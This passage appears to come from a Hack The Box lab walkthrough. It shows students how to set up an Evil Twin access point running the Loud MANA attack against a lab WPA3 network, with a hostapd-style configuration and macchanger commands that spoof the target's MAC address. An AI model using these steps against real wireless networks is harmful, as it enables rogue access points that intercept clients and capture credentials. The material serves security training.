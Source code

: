 Examining the output of `airodumo-ng`, students will discover the target WPA3 network `HTB-WPAtomic`.

Next, students need to create the configuration for an Evil Twin, specifically one that will perform the Loud MANA attack.

Code: shell

```shell
cat << EOF > mac.conf 
ssid=HTB-WPAtomic
interface=wlan1
channel=1
hw_mode=g

# Mana Attack Configuration
enable_mana=1
mana_loud=1

# WPA AP Configuration
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=PSKmismatchmaker
EOF
```

```
wifi@WiFiIntro:~$ cat << EOF > mac.conf 
ssid=HTB-WPAtomic
interface=wlan1
channel=1
hw_mode=g

# Mana Attack Configuration
enable_mana=1
mana_loud=1

# WPA AP Configuration
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=PSKmismatchmaker
EOF
```

Subsequently students need to configure the MAC address of `wlan1`, making it identical to the MAC address of `HTB-WPAtomic`.

Code: shell

```shell
sudo ifconfig wlan1 down
sudo macchanger -m D8:D6:3D:EB:29:D5 wlan1
sudo ifconfig wlan1 up
```
